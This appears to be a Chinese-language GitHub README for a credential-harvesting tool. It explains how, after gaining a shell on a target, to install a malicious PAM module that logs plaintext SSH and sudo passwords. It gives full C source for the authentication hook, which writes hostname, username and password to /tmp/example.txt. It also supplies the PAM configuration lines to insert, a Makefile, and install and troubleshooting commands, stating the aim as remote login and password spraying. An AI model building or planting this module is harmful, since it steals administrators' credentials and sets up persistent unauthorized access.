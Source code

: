 ## PAM记录ssh或sudo明文密码

### 利用需求

当我们获取到目标shell后，无法爆破shadow，或信息搜集无法获取到密码

但又想要获取ssh密码进行远程登录或者进行内网密码喷洒，或其他密码需求

可以利用这个方法获目标系统管理员登录的明文密码

### 详情

Ubuntu 下，通过对/etc/pam.d 文件夹下的 sshd 和 sudo 的 PAM 使用配置的查看，可以发现他们 都对 common-auth 配置进行了引用

因此我们在/etc/pam.d/common-auth 配置文件中添加以下 配置（ubuntu），而在 Centos 下则各自在/etc/pam.d/sshd 和/etc/pam.d/sudo 中添加如下配置:

```
auth optional example.so

account optional example.so
```

创建example.c文件

```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <security/pam_appl.h> 
#include <security/pam_modules.h> 
#include <security/pam_ext.h> 
#include <unistd.h>

#define STOREPATH "/tmp/example.txt"

PAM_EXTERN int pam_sm_setcred( pam_handle_t *pamh, int flags, int argc, const char **argv ) {
    return PAM_SUCCESS; 
    }
PAM_EXTERN int pam_sm_acct_mgmt(pam_handle_t *pamh, int flags, int argc, const char **argv) {
    return PAM_SUCCESS; 
    }
PAM_EXTERN int pam_sm_authenticate( pam_handle_t *pamh, int flags,int argc, const char **argv ) {
    int retval;
    const char* username;
    const char* password; 
    char hostname[128];
    retval = pam_get_user(pamh, &username, "Username: "); 
    if (retval != PAM_SUCCESS) {
        return retval;
        }
    retval = pam_get_authtok(pamh,PAM_AUTHTOK,&password,NULL); if (retval != PAM_SUCCESS) {
        return retval;
        }
    gethostname(hostname, sizeof hostname);
    FILE *fp = NULL;
    fp = fopen(STOREPATH, "a+");
    fprintf(fp, "%s:%s:%s\n",hostname,username,password); 
    fclose(fp);

    return PAM_SUCCESS; 
}
```

创建Makefile文件

```
CFLAGS += -Werror -Wall
example.so: example.c
	gcc $(CFLAGS) -fPIC -shared -Xlinker -x -o $@ $<
```

终端执行make

![image-20220808113550564](./img/make.png)

Ubuntu将生成的example.so文件复制到/lib/security;centos将文件放入/lib64/security目录下，没有该目录的话就创建一个

最终的明文密码放在/tmp/example.txt文件中

![image-20220808113550564](./img/req.png)

### 使用方法

```
git clone https://github.com/yaunsky/sshpam
cd sshpam
make
cp example.so /lib/security;或cp example.so /lib64/security
```

### 报错解决

make时报错

![image-20220808113550564](./img/error.png)

ubuntu 需下载 libpam0g-dev

```
apt-get install libpam0g-dev
```

centos 需下载 pam-devel

```
yum install pam-devel
```

